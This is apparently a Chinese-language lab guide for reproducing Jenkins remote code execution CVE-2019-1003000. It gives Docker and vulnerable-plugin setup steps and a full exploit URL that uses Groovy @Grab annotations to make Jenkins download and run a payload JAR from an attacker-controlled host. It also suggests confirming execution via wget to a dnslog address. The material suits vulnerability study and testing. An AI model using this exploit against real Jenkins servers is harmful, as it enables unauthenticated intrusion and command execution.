 # Jenkins 远程代码执行漏洞（CVE-2019-1003000)


## 原理

参考阅读:

https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
https://github.com/petercunha/Jenkins-PreAuth-RCE-PoC

## 测试环境搭建
测试环境编译及运行：

```
docker pull her0ma/CVE-2019-1003000
docker run -d -p 8080:8080 her0ma/cve-2019-1003000
```
也可以进入当前文件所在目录，基于Dockerfile文件构建镜像并搭建漏洞环境，操作如下：

1、基于Dockerfile构建镜像

```
docker build -t cve-2019-1003000 .
```
2、下载漏洞插件，下载地址如下：

* Pipeline: Declarative插件1.3.4版本  
https://mirrors.tuna.tsinghua.edu.cn/jenkins/plugins/pipeline-model-definition/1.3.4/pipeline-model-definition.hpi

* Script Security插件1.48版本  
https://mirrors.tuna.tsinghua.edu.cn/jenkins/plugins/script-security/1.48/script-security.hpi
* Pipeline: Groovy插件2.60版本  
https://mirrors.tuna.tsinghua.edu.cn/jenkins/plugins/workflow-cps/2.60/workflow-cps.hpi

3、运行并进入容器，查看初始密码，初始密码位置

```
/var/jenkins_home/secrets/initialAdminPassword
```
4、安装推荐插件，设置管理密码，并登陆管理账号，进入插件管理-高级功能，上传安装上文中下载的三个漏洞插件。

5、安装插件完成之后，选择重启Jenkins。
## 测试过程
### 1、生成执行命令的Jar文件
生成执行命令的jar包所需的文件都在payload目录下，如下：

* Payload.java 执行命令的Java文件源代码，可以根据测试情况修改其中的命令。
* META-INF 目录中保存了执行JAR包所依赖的方法类

执行build.sh文件，编译生成jar包。

### 2、将jar包放到另外一台可访问的web目录下
存在payload-1.jar文件的目录很重要，如：

```
http://Exploit-HOST/package/payload/1/payload-1.jar
http://Exploit-HOST/package/payload/2/payload-2.jar
```

### 3、访问漏洞利用URL，执行命令
具体漏洞测试url如下：

```
http://<TARGET HOST>/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition/checkScriptCompile
?value=
@GrabConfig(disableChecksums=true)%0a
@GrabResolver(name='payload', root='http://<EXPLOIT HOST>')%0a
@Grab(group='package', module='payload', version='1')%0a
import Payload;
```
EXPLOIT HOST是保存了JAR文件的服务器IP或域名，group、module、version的值对应了该jar文件的存放路径。修改version的值，对应的jar包的访问路径和文件名也需要发生改变。

访问url的时候，成功利用的之后，请求回显如图：

![](4.png)

查看EXPLOIT HOST的web日志，会看到如下记录：

![](1.png)

说明成功请求下载了执行命令的jar文件，进入容器，可以在如下目录中看到对应的jar文件：

![](2.png)

可利用wget dnslog地址的方式来判断是否成功执行了命令，成功的如图：

![](3.png)

